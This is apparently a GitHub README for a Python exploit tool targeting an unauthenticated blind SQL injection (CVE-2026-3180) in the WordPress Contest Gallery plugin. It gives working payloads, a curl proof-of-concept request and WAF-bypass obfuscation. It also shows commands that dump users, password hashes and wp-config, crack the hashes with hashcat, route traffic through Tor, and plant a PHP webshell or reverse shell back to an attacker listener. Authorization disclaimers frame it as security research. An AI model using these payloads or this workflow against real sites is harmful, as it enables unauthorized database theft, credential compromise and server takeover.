

<div align="center" style="background-color: #fff3cd; border: 1px solid #ffc107; border-radius: 6px; padding: 12px 16px; margin-bottom: 24px;">
  <strong>⚠️ Under Testing</strong><br>
  This PoC is actively being tested and refined. Features may change between releases.
</div>

<div align="center">

# CVE-2026-3180

### WordPress Contest Gallery — Unauthenticated Blind SQL Injection

[](#installation)
[](#version-history)
[](#vulnerability-details)
[](#license)
[](#installation)

**Proof-of-concept assessment tool for CVE-2026-3180**  
Author: **Sudeepa Wanigarathna** · Original discovery: **cardosource**

</div>

---

> [!IMPORTANT]
> **Authorized use only.** This tool is for security research, education, and testing systems you own or have explicit written permission to assess. Unauthorized access to computer systems is illegal. The author assumes no liability for misuse.

---

## Table of Contents

- [Overview](#overview)
- [Vulnerability Details](#vulnerability-details)
- [Features](#features)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Usage Guide](#usage-guide)
- [Command Reference](#command-reference)
- [Injection Techniques](#injection-techniques)
- [WAF Bypass](#waf-bypass)
- [Data Extraction](#data-extraction)
- [Integrations](#integrations)
- [Attack Chain](#attack-chain)
- [Output & Reports](#output--reports)
- [Docker](#docker)
- [CI/CD Integration](#cicd-integration)
- [Troubleshooting](#troubleshooting)
- [Repository Layout](#repository-layout)
- [Version History](#version-history)
- [Disclaimer](#disclaimer)
- [Author & Credits](#author--credits)

---

## Overview

CVE-2026-3180 is a **high-severity, unauthenticated blind SQL injection** in the WordPress **Contest Gallery** plugin. The flaw exists in the `post_cg1l_resend_unconfirmed_mail_frontend` AJAX handler, where the `cgl_mail` parameter is passed to a SQL query without proper sanitization.

This repository provides a full-featured Python PoC (v2.0) for authorized security professionals to validate impact, extract WordPress data, generate reports, and integrate with industry-standard tooling (SQLMap, Burp Suite, Nuclei).


---

## Vulnerability Details

| Attribute | Value |
|---|---|
| **CVE ID** | CVE-2026-3180 |
| **CVSS** | 7.5 (High) |
| **Attack Vector** | Network — unauthenticated |
| **Impact** | Confidentiality breach, database read, credential theft |
| **Affected Product** | WordPress Contest Gallery plugin |
| **Affected Versions** | **28.1.4 and earlier** |
| **Vulnerability Type** | Blind SQL Injection |
| **DBMS** | MySQL / MariaDB |

### Affected Endpoint

| Field | Value |
|---|---|
| **URL** | `/wp-admin/admin-ajax.php` |
| **Method** | `POST` |
| **Action** | `post_cg1l_resend_unconfirmed_mail_frontend` |
| **Vulnerable Parameter** | `cgl_mail` |

### Proof-of-Concept Request

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: target.example
Content-Type: application/x-www-form-urlencoded

action=post_cg1l_resend_unconfirmed_mail_frontend
&cgl_mail=qualquer'OR/**/1=1#@teste.com
&cgl_page_id=1
&cgl_activation_key=
&cg_nonce=%20
```

### References

- [CVE-2026-3180](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-3180)
- [Exploit-DB 52609](https://www.exploit-db.com/exploits/52609)
- [Original write-up (cardosource)](https://dev.to/22l31on/wordpress-contest-gallery-plugin-vulnerability-2ff6)

---

## Features

### Core Exploitation

| Capability | Description |
|---|---|
| Vulnerability detection | Boolean, time-based, error-based, union, and stacked query tests |
| Blind extraction | Binary-search character extraction via boolean inference |
| Full data dump | Users, database metadata, options, plugins, themes, posts, tables |
| Interactive SQL shell | Run arbitrary `SELECT` queries against the backend |
| wp-config.php extraction | `LOAD_FILE()` attempts against common paths |
| Reverse shell | PHP webshell write via `INTO OUTFILE` / `DUMPFILE` (when permitted) |

### Evasion & Performance

| Capability | Description |
|---|---|
| WAF bypass | 15+ encoding and obfuscation techniques |
| Multi-threading | Configurable worker threads for faster extraction |
| Rate limiting | Configurable delay between requests |
| Retry logic | Automatic retries on transient failures |
| User-Agent rotation | Random browser fingerprints per request |
| Proxy support | HTTP/SOCKS proxies and Tor (`socks5h://127.0.0.1:9050`) |

### Reporting & Integrations

| Capability | Description |
|---|---|
| Report generation | JSON and HTML reports with extraction summaries |
| SQLMap integration | Auto-generated SQLMap command with tampers |
| Burp Suite extension | Generator + standalone `burp_contest_gallery.py` |
| Nuclei template | YAML template for mass detection |
| Metasploit module | Ruby auxiliary module (`contest_gallery_sqli.rb`) |
| Shell automation | Bash scripts for curl-based and SQLMap workflows |

### Operational

| Capability | Description |
|---|---|
| Colored CLI output | Structured logging with severity levels |
| Progress tracking | Real-time metrics (requests, timing, extraction speed) |
| Quiet / verbose modes | Suitable for scripting and debugging |
| Signal handling | Graceful cleanup on `Ctrl+C` |
| Docker ready | Containerized deployment support |
| CI/CD pipeline ready | Exit codes and JSON output for automation |

---

## Installation

### Prerequisites

- Python **3.8+**
- `pip`
- Network reachability to target(s) under test

### Optional External Tools

| Tool | Purpose |
|---|---|
| [SQLMap](https://github.com/sqlmapproject/sqlmap) | Automated SQL injection |
| [Burp Suite](https://portswigger.net/burp) | Manual testing & extension hosting |
| [Nuclei](https://github.com/projectdiscovery/nuclei) | Template-based scanning |
| [Hashcat](https://hashcat.net/hashcat/) | Offline hash cracking |
| [Tor](https://www.torproject.org/) | Anonymous routing (`--proxy tor`) |

### Setup

```bash
git clone https://github.com/CerberusMrXi/WP-Contest-Gallery-28.1.4-Exploit.git
cd WP-Contest-Gallery-28.1.4-Exploit

python3 -m venv venv
source venv/bin/activate          # Windows: venv\Scripts\activate

pip install -r requirements.txt

python3 cve-2026-3180.py --help
```

### Dependencies

**Required (runtime):**

```text
requests>=2.31.0
```

**Recommended (from requirements.txt):**

```text
colorama>=0.4.6
tqdm>=4.65.0
pyyaml>=6.0
python-dateutil>=2.8.2
urllib3>=2.0.0
```

> The main exploit uses only the Python standard library plus `requests`. Additional packages enhance output and reporting.

---

## Quick Start

> Replace `http://target.example` with a **lab or authorized** target only.

### Check vulnerability

```bash
python3 cve-2026-3180.py http://target.example --scan
```

### Full exploitation (detect + extract)

```bash
python3 cve-2026-3180.py http://target.example
```

### Dump WordPress users

```bash
python3 cve-2026-3180.py http://target.example --dump users
```

### Interactive SQL shell

```bash
python3 cve-2026-3180.py http://target.example --sql-shell
```

### Generate HTML report

```bash
python3 cve-2026-3180.py http://target.example --report html -o assessment.html
```

### Through Burp proxy

```bash
python3 cve-2026-3180.py http://target.example --proxy http://127.0.0.1:8080 -v
```

---

## Usage Guide

### Vulnerability scan only

```bash
python3 cve-2026-3180.py http://target.example --scan
```

Runs boolean, time-based, and error-based detection without full extraction.

### Full data extraction

```bash
python3 cve-2026-3180.py http://target.example --dump all
```

Extracts database info, users, options, plugins, themes, posts, tables, and system metadata.

### Selective dumps

```bash
python3 cve-2026-3180.py http://target.example --dump database
python3 cve-2026-3180.py http://target.example --dump users
python3 cve-2026-3180.py http://target.example --dump config
python3 cve-2026-3180.py http://target.example --dump options
python3 cve-2026-3180.py http://target.example --dump plugins
python3 cve-2026-3180.py http://target.example --dump themes
```

### Interactive SQL shell

```bash
python3 cve-2026-3180.py http://target.example --sql-shell
```

```text
sql> SELECT DATABASE()
wordpress

sql> show users
[
  {
    "username": "admin",
    "email": "admin@target.example",
    "password_hash": "$P$B..."
  }
]

sql> show tables
["wp_users", "wp_posts", "wp_options", ...]

sql> exit
```

**Shell commands:**

| Command | Description |
|---|---|
| `SELECT ...` | Execute a SQL query and print result |
| `show users` | Display cached extracted users |
| `show tables` | Display cached table list |
| `show database` | Display cached DB metadata |
| `show config` | Display wp-config.php if extracted |
| `show options` | Display WordPress options |
| `show plugins` | Display active plugins |
| `help` | List available commands |
| `exit` / `quit` | Exit shell |

### Report generation

```bash
# JSON report (default, saved to reports/)
python3 cve-2026-3180.py http://target.example --report json

# HTML report with custom filename
python3 cve-2026-3180.py http://target.example --report html -o reports/assessment.html
```

### Reverse shell (authorized lab only)

```bash
# Terminal 1 — listener
nc -lvnp 4444

# Terminal 2 — exploit
python3 cve-2026-3180.py http://target.example --reverse-shell 10.0.0.5 4444
```

> Requires `FILE` privilege, writable webroot, and `secure_file_priv` not blocking the target path.

### SQLMap command generation

```bash
python3 cve-2026-3180.py http://target.example --sqlmap
```

Or use the bundled automation script:

```bash
chmod +x sqlmap_automation.sh
./sqlmap_automation.sh http://target.example
```

### Burp Suite extension

```bash
# Generate extension from exploit
python3 cve-2026-3180.py http://target.example --burp-extension

# Or load the standalone extension
# Burp → Extender → Extensions → Add → Python → burp_contest_gallery.py
```

### Nuclei template

```bash
python3 cve-2026-3180.py http://target.example --nuclei-template

# Scan with generated template
nuclei -u http://target.example -t CVE-2026-3180.yaml
```

### Bash automation (no Python)

```bash
chmod +x cve-2026-3180_automated.sh
./cve-2026-3180_automated.sh http://target.example
```

### Tor routing

```bash
# Ensure Tor is running on 127.0.0.1:9050
python3 cve-2026-3180.py http://target.example --proxy tor
```

### Performance tuning

```bash
python3 cve-2026-3180.py http://target.example \
  --threads 20 \
  --timeout 15 \
  --delay 0.1 \
  --retries 5 \
  -v
```

---

## Command Reference

### Positional Arguments

| Argument | Description |
|---|---|
| `target` | Target WordPress base URL (e.g. `http://target.example`) |

### Network Options

| Argument | Default | Description |
|---|---|---|
| `--proxy` | — | Proxy URL or `tor` for SOCKS5 via Tor |
| `--timeout` | `10` | HTTP request timeout (seconds) |
| `--delay` | `0.05` | Delay between requests (seconds) |
| `--retries` | `3` | Retry count on failed requests |
| `--threads`, `-t` | `5` | Thread pool size |

### Output Options

| Argument | Description |
|---|---|
| `--verbose`, `-v` | Enable debug logging |
| `--quiet` | Suppress console output |
| `--output`, `-o` | Custom output file path |

### Modes

| Argument | Description |
|---|---|
| *(default)* | Full exploit: detect → scan → extract all |
| `--scan` | Vulnerability detection only |
| `--sql-shell` | Interactive SQL shell |
| `--dump {users,config,database,options,plugins,themes,all}` | Extract specific data |
| `--report {json,html}` | Generate assessment report |
| `--reverse-shell LHOST LPORT` | Attempt reverse shell via file write |
| `--sqlmap` | Print SQLMap command |
| `--burp-extension` | Generate Burp Suite extension |
| `--nuclei-template` | Generate Nuclei YAML template |

---

## Injection Techniques

The tool automatically tests and uses multiple injection strategies:

| Type | Detection Method | Use Case |
|---|---|---|
| **Boolean-based** | Response length differential (`1=1` vs `1=2`) | Primary extraction engine |
| **Time-based** | `SLEEP()` delay inference | Fallback when boolean signals are weak |
| **Error-based** | `EXTRACTVALUE()` / SQL error strings | Fast metadata when errors leak |
| **Union-based** | `UNION SELECT` payloads | Direct value retrieval (when applicable) |
| **Stacked queries** | `'; ... #` syntax | Multi-statement execution (rare) |

### Payload Templates

The `PayloadManager` rotates across 12+ injection templates:

```text
'OR/**/{condition}#@teste.com
'OR{condition}-- -
')OR{condition}#
'))OR{condition}#
'OR/**/{condition}OR/**/'1'='1'#
'UNION/**/SELECT{condition}#
...
```

### Boolean Extraction Algorithm

1. Confirm vulnerability via true/false baseline lengths  
2. Binary-search `LENGTH()` of target query result  
3. Binary-search `ASCII(SUBSTRING(...))` per character position  
4. Assemble full string from extracted characters  

---

## WAF Bypass

Built-in obfuscation techniques applied randomly or on demand:

| Technique | Description |
|---|---|
| `comment_obfuscation` | Replace spaces with `/**/`, `/*!*/`, `-- `, `#` |
| `case_variation` | Random upper/lower case in alphabetic chars |
| `url_encoding` | Standard percent-encoding |
| `double_url_encoding` | Nested percent-encoding |
| `hex_encoding` | `%41`-style hex encoding |
| `unicode_encoding` | `%u0041`-style unicode encoding |
| `white_space_variation` | Tabs, newlines, form feeds instead of spaces |
| `keyword_obfuscation` | Split keywords: `SEL/**/ECT`, `UNI/**/ION` |
| `concat_obfuscation` | `CHAR()` concatenation via `\|\|` |
| `char_obfuscation` | `CHAR()` addition via `+` |

Example transformed payload:

```text
qualquer'OR/**/1=1#@teste.com
→ qualquer'%2F**%2FOR%2F**%2F1%3D1%23%40teste.com
```

---

## Data Extraction

### Extraction Targets

| Target | SQL Source | Output Key |
|---|---|---|
| Database name | `SELECT DATABASE()` | `database.name` |
| DB version | `SELECT VERSION()` | `database.version` |
| DB user | `SELECT USER()` | `database.user` |
| Tables | `information_schema.TABLES` | `tables[]` |
| Columns | `information_schema.COLUMNS` | `columns{}` |
| WP users | `wp_users` | `users[]` |
| Password hashes | `wp_users.user_pass` | `users[].password_hash` |
| Emails | `wp_users.user_email` | `users[].email` |
| Roles | `wp_usermeta` capabilities | `users[].roles` |
| Site options | `wp_options` | `options{}` |
| Active plugins | `wp_options.active_plugins` | `plugins[]` |
| Themes | `template` / `stylesheet` options | `themes[]` |
| Posts | `wp_posts` | `posts[]` |
| wp-config.php | `LOAD_FILE('/var/www/html/wp-config.php')` | `config` |
| System info | `@@hostname`, `@@datadir`, etc. | `system_info{}` |

### Extracted User Object Shape

```json
{
  "username": "admin",
  "password_hash": "$P$Bxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
  "email": "admin@target.example",
  "roles": ["administrator"]
}
```

### Password Hash Cracking (offline)

After extraction, crack WordPress phpass hashes with Hashcat:

```bash
# Save hashes to file
python3 cve-2026-3180.py http://target.example --dump users -o users.json

# Crack with Hashcat (mode 400 = phpass)
hashcat -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## Integrations

### SQLMap

Generated command (via `--sqlmap`):

```bash
sqlmap -u "http://target.example/wp-admin/admin-ajax.php" \
  --data "action=post_cg1l_resend_unconfirmed_mail_frontend&cgl_mail=test'&cgl_page_id=1&cgl_activation_key=&cg_nonce=%20" \
  -p cgl_mail \
  --dbms=mysql \
  --level=3 --risk=2 \
  --batch \
  --threads=5 \
  --time-sec=5 \
  --retries=3 \
  --delay=0.05 \
  --random-agent \
  --hex \
  --tamper=space2comment,randomcase,between,charencode \
  --dbs
```

### Burp Suite

1. Load `burp_contest_gallery.py` in **Extender → Extensions → Add**  
2. Open the **CVE-2026-3180** tab  
3. Enter target URL and click **Exploit**  
4. Passive scanner checks AJAX requests for Contest Gallery indicators  

### Nuclei

```yaml
id: CVE-2026-3180
info:
  name: WordPress Contest Gallery SQL Injection
  severity: high
  classification:
    cve-id: CVE-2026-3180
    cvss-score: 7.5

requests:
  - method: POST
    path: /wp-admin/admin-ajax.php
    body: "action=post_cg1l_resend_unconfirmed_mail_frontend&cgl_mail=test'&cgl_page_id=1&cgl_activation_key=&cg_nonce=%20"
```

### Metasploit

```bash
# Copy module to Metasploit
cp contest_gallery_sqli.rb ~/.msf4/modules/auxiliary/scanner/http/

# Run
msfconsole -q -x "use auxiliary/scanner/http/contest_gallery_sqli; set RHOSTS target.example; run"
```

---

## Attack Chain



### Technical Summary

1. **Entry point** — `post_cg1l_resend_unconfirmed_mail_frontend` AJAX action in Contest Gallery plugin.  
2. **Sink** — `cgl_mail` value concatenated into SQL without parameterization.  
3. **Exploitation** — Blind boolean inference extracts data character-by-character.  
4. **Impact** — Full read access to WordPress database; potential file write if MySQL privileges allow.  

---

## Output & Reports

### Console Output

```text
[*] Target: http://target.example
[*] Checking vulnerability...
[+] Target is VULNERABLE! (Boolean-based)
[+] Response length difference: 42 chars
[*] Extracting database information...
[+] name: wordpress
[+] version: 8.0.35
[+] Found 3 users
[+] Exploitation complete!
```

### JSON Report Structure

```json
{
  "metadata": {
    "cve": "CVE-2026-3180",
    "cvss_score": "7.5 (High)",
    "type": "boolean_based"
  },
  "target": {
    "url": "http://target.example",
    "ajax_url": "http://target.example/wp-admin/admin-ajax.php"
  },
  "vulnerability": {
    "vulnerable": true,
    "type": "boolean_based"
  },
  "extracted_data": {
    "database": { "name": "wordpress", "version": "8.0.35" },
    "users": [],
    "tables": [],
    "plugins": [],
    "options": {}
  },
  "summary": {
    "users_found": 3,
    "tables_found": 12,
    "plugins_found": 8,
    "config_extracted": false
  }
}
```

Reports are saved to `reports/` by default.

---

## Docker

```dockerfile
FROM python:3.11-slim

WORKDIR /app
COPY requirements.txt cve-2026-3180.py ./
RUN pip install --no-cache-dir -r requirements.txt

ENTRYPOINT ["python3", "cve-2026-3180.py"]
CMD ["--help"]
```

```bash
# Build
docker build -t cve-2026-3180 .

# Scan
docker run --rm cve-2026-3180 http://target.example --scan

# Full exploit with report volume
docker run --rm -v $(pwd)/reports:/app/reports cve-2026-3180 \
  http://target.example --report json
```

---

## CI/CD Integration

Example GitHub Actions workflow for authorized staging scans:

```yaml
name: CVE-2026-3180 Staging Scan

on:
  workflow_dispatch:
  schedule:
    - cron: '0 2 * * 1'

jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - uses: actions/setup-python@v5
        with:
          python-version: '3.11'

      - run: pip install -r requirements.txt

      - name: Vulnerability scan
        run: |
          python3 cve-2026-3180.py ${{ secrets.STAGING_URL }} \
            --scan --quiet
        continue-on-error: true

      - name: Generate report
        run: |
          python3 cve-2026-3180.py ${{ secrets.STAGING_URL }} \
            --report json -o reports/staging.json

      - uses: actions/upload-artifact@v4
        with:
          name: security-report
          path: reports/
```

---

## Troubleshooting

| Symptom | What to try |
|---|---|
| Target not vulnerable | Confirm Contest Gallery ≤ 28.1.4 is installed and active |
| No response length difference | Try `--scan` for time-based fallback; increase `--timeout` |
| Very slow extraction | Increase `--threads`; reduce `--delay` cautiously |
| Connection errors | Raise `--timeout` and `--retries`; check proxy settings |
| WAF blocking requests | Use `--proxy tor`; tool auto-applies bypass techniques |
| Tor proxy fails | Verify Tor on `127.0.0.1:9050`; install `requests[socks]` if needed |
| Empty user dump | Table prefix may not be `wp_`; use `--sql-shell` with custom queries |
| wp-config not found | Try `--sql-shell` with alternate `LOAD_FILE()` paths |
| Reverse shell fails | Check `FILE` privilege, `secure_file_priv`, webroot permissions |

### Debug Workflow

```bash
# Verbose scan
python3 cve-2026-3180.py http://target.example --scan -v

# Through Burp
python3 cve-2026-3180.py http://target.example \
  --proxy http://127.0.0.1:8080 -v --scan

# Manual curl verification
curl -s -X POST "http://target.example/wp-admin/admin-ajax.php" \
  -d "action=post_cg1l_resend_unconfirmed_mail_frontend&cgl_mail=qualquer'OR/**/1=1#@teste.com&cgl_page_id=1&cgl_activation_key=&cg_nonce=%20" \
  -w "\nSize: %{size_download}\n"
```

---

## Repository Layout

```text
exploit/
├── cve-2026-3180.py              # Main exploit tool (v2.0)
├── requirements.txt              # Python dependencies
├── README.md                     # This file
├── burp_contest_gallery.py       # Standalone Burp Suite extension
├── contest_gallery_sqli.rb       # Metasploit auxiliary module
├── cve-2026-3180_automated.sh    # Bash/curl automation script
├── sqlmap_automation.sh          # SQLMap wrapper script
├── reports/                    # Generated reports (created at runtime)
├── backups/                    # Database backups (created at runtime)
├── payloads/                   # Custom payload storage
└── venv/                       # Local virtualenv (optional, not committed)
```

---

## Version History

### v2.0.0 — Ultimate Edition (January 2026)

- Boolean, time, error, union, and stacked injection detection  
- Full WordPress data extraction pipeline  
- 15+ WAF bypass techniques  
- Interactive SQL shell  
- JSON / HTML report generation  
- SQLMap, Burp, and Nuclei integrations  
- Reverse shell via `INTO OUTFILE`  
- Proxy and Tor support  
- Multi-threading with retry logic  
- Colored output and structured logging  

### v1.0 — Initial Release

- Basic boolean-based detection  
- Manual user extraction  

---

## Disclaimer

This project is provided **as-is** for **defensive security research** and **authorized penetration testing**.

By using this software you agree that:

1. You will only target systems you own or are explicitly authorized to test.  
2. You understand applicable computer-abuse and data-protection laws.  
3. The author and contributors are **not responsible** for damage, data loss, or legal consequences from misuse.  

If you discover this vulnerability in production, follow responsible disclosure practices and coordinate with the plugin vendor / WordPress security team where appropriate.

---

## Author & Credits

| Role | Name |
|---|---|
| **Tool Author** | Sudeepa Wanigarathna |
| **Original Discovery** | cardosource |
| **CVE** | CVE-2026-3180 |
| **License** | MIT |

---

## License

```
MIT License

Copyright (c) 2026 Sudeepa Wanigarathna

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
```

---

## Support

- Star the repo if it helps your research  
- Open issues for bugs, false positives, or detection improvements  
- Pull requests welcome for docs, WAF bypass techniques, and authorized-lab UX  

---

<div align="center">

**For authorized security testing only.**

</div>
